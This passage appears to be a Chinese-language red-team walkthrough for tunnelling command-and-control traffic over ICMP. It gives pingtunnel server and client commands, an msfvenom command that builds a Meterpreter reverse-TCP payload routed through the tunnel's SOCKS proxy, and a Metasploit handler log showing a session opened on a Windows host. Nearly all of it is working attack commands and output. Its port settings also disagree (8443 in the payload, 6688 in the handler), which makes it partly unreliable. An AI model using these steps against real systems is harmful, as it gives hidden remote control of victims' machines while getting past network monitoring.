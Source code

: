 * 准备好一个具有公网IP的服务器，root权限运行以下命令，启动ICMP隧道服务端

```shell
./pingtunnel -type server -noprint 1 -nolog 1
```

ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道

```shell
pingtunnel.exe -type client -l 127.0.0.1:6688 -s icmpserver_ip -sock5 1 -nolog 1 -noprint 1
# 该命令的意思是icmp隧道客户端监听127.0.0.1:6688启动socks5服务，通过连接到icmpserver_ip的icmp隧道，由icmpserver转发socks5代理请求到目的地址
# icmpserver_ip 192.168.1.10
```

生成支持socks5代理的反向payload的meterpreter并上传到ICMP隧道客户端执行即可上线

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=c2_server_ip LPORT=8443 HttpProxyType=SOCKS HttpProxyHost=127.0.0.1 HttpProxyPort=6688 -f exe -o meterpreter.exe
# c2_server_ip 192.168.1.10
```

启动msf监听，等待meterpreter执行上线

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 6688
lport => 6688
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:6688 
[*] Sending stage (200774 bytes) to 192.168.1.11
[*] Meterpreter session 4 opened (192.168.1.10:6688 -> 192.168.1.11:59957) at 2024-01-16 02:17:38 -0500

meterpreter > getuid
Server username: ECHO0D-WIN\echo0d
```

![image-20240116152131909](./img/Tunnel/image-20240116152131909.png)
